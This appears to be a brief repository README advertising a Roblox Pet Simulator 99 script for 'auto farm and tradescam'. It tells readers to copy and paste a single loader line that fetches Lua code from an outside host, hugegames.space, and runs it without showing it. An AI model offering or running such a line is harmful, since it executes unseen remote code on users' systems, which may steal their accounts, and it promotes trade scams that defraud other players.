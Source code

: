 # PS99-SCRIPTS
psx script for auto farm and tradescam


copy and paste the script below 


loadstring(game:HttpGet('https://hugegames.space/004eeb1642b7cfb99082d6f0.lua'))()
